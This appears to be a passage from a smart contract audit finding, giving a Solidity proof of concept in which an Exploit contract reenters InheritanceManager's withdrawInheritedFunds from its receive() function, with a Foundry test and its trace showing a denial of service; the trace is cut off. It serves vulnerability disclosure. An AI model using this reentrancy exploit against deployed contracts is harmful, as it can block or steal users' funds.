 ### Impact/Proof of Concept
```
contract Exploit {
    InheritanceManager im;

    constructor(InheritanceManager _im) {
        im = _im;
    }

    receive() external payable {
        // If IM contract balance more than 6e18 then reenter (for testing sake)
        if(address(im).balance >= 6e18){
            console.log('IM balance:',address(im).balance);
            im.withdrawInheritedFunds(address(0));
        }
    }
}
function test_withdrawInheritedFundsReentrancyCausesDOS() public {
        // Give the IM 10 ETH
        vm.deal(address(im), 9e18);
        console.log("IM initial ETH balance:", address(im).balance);

        // Create 2 more beneficiaries
        Exploit exploiter = new Exploit(im);
        address user2 = makeAddr("user2");
        

        // Add all 3 users as beneficiaries
        vm.startPrank(owner);
        im.addBeneficiery(address(exploiter));
        im.addBeneficiery(user1);
        im.addBeneficiery(user2);
        vm.stopPrank();

        // Fast forward 90days and start inherit
        vm.warp(90 days + 1);
        vm.startPrank(address(exploiter));
        im.inherit();

        // Withdraw Ether
        vm.expectRevert("something went wrong");
        im.withdrawInheritedFunds(address(0));
        vm.stopPrank();
    }

```
Results
```diff
[PASS] test_withdrawInheritedFundsReentrancyCausesDOS() (gas: 390169)
Logs:
  IM initial ETH balance: 9000000000000000000
  IM balance: 6000000000000000000

Traces:
  [390169] InheritanceManagerTest::test_withdrawInheritedFundsReentrancyCausesDOS()
    ├─ [0] VM::deal(InheritanceManager: [0x88F59F8826af5e695B13cA934d6c7999875A9EeA], 9000000000000000000 [9e18])
    │   └─ ← [Return] 
    ├─ [0] console::log("IM initial ETH balance:", 9000000000000000000 [9e18]) [staticcall]
    │   └─ ← [Stop] 
    ├─ [106080] → new Exploit@0xF62849F9A0B5Bf2913b396098F7c7019b51A820a
    │   └─ ← [Return] 418 bytes of code
    ├─ [0] VM::addr(<pk>) [staticcall]
```